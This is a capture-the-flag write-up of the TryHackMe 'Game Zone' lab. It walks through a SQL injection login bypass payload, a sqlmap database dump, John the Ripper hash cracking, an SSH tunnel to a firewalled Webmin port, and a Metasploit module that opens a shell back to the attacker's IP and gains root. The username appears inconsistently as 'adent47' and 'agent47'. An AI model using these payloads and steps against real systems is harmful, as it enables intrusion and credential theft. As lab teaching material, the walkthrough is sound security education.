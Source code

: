```yaml
---
layout: post
permalink: /posts/thm/game-zone
title: "Game Zone"
---
```


Deploy the machine and access its web server.

![website](/assets/images/thm/game-zone/website.png)

What is the name of the large cartoon avatar holding a sniper on the forum?

![agent](/assets/images/thm/game-zone/agent.png)

We can notice there is a login form on the web site. Here is a potential place of vulnerability, as you can input your username as another SQL query. This will take the query write, place and execute it. <br />

Use `' or 1=1 -- -` as an username and leave the password field blank.

![portal](/assets/images/thm/game-zone/portal.png)

We're going to use SQLMap to dump the entire database for GameZone.
Using the page we logged into earlier, we're going point SQLMap to the game review search feature.
First we need to intercept a request made to the search feature using BurpSuite.

![burp](/assets/images/thm/game-zone/burp.png)

Save this request into a text file. We can then pass this into SQLMap to use our authenticated user session. (Right click into the Burp and Save item)

```
sqlmap -r request.txt --dbms=mysql --dump
```

-r uses the intercepted request you saved earlier <br />
--dbms tells SQLMap what type of database management system it is <br />
--dump attempts to outputs the entire database <br />

SQLMap will now try different methods and identify the one thats vulnerable. Eventually, it will output the database.

![database](/assets/images/thm/game-zone/database.png)

![db](/assets/images/thm/game-zone/db.png)

Crack the password with JohnTheRipper

```
john hash.txt --wordlist=rockyou.txt --format=Raw-SHA256
```

![john](/assets/images/thm/game-zone/john.png)

Now we have the username: adent47 and password: videogamer124 <br />
Try to SSH onto the machine

![ssh](/assets/images/thm/game-zone/ssh.png)

We will use a tool called ss to investigate sockets running on a host.

```
ss -tulpn
```

Argument	    Description <br />
-t			        Display TCP sockets <br />
-u			        Display UDP sockets <br />
-l			        Displays only listening sockets <br />
-p			        Shows the process using the socket <br />
-n			        Doesn't resolve service names <br />

![tulpn](/assets/images/thm/game-zone/tulpn.png)

We can see that a service running on port 10000 is blocked via a  firewall rule from the outside (we can see this from the IPtable list).  However, Using an SSH Tunnel we can expose the port to us (locally)!<br />
From our local machine

```
ssh -L 10000:localhost:10000 <username>@<ip>
```

![agent-ssh](/assets/images/thm/game-zone/agent-ssh.png)

Once complete, in your browser type "localhost:10000" and you can access the newly-exposed webserver.

![login](/assets/images/thm/game-zone/login.png)

Log in with credentials which we have already found.

![webmin](/assets/images/thm/game-zone/webmin.png)

Privilege Escalation with Metasploit <br />
Using the CMS dashboard version, use Metasploit to find a payload to execute against the machine.

```
search 1.580
```

We are going to use module 0 <br />
First we need to set payload

![payload](/assets/images/thm/game-zone/payload.png)

We are going to use payload 5 <br />

Now we can set our options. Because we are attacking localhost:10000 we need to set RHOSTS to localhost not to the machine ip. Also we have to set SSL to false because we are not going to use https. RHOSTS by default is 10000 so we don't need to set it.

```
set PASSWORD videogamer124
set RHOSTS localhost
set SSL false
set USERNAME agent47
set LHOST 10.9.5.60
run
```

![root](/assets/images/thm/game-zone/root.png)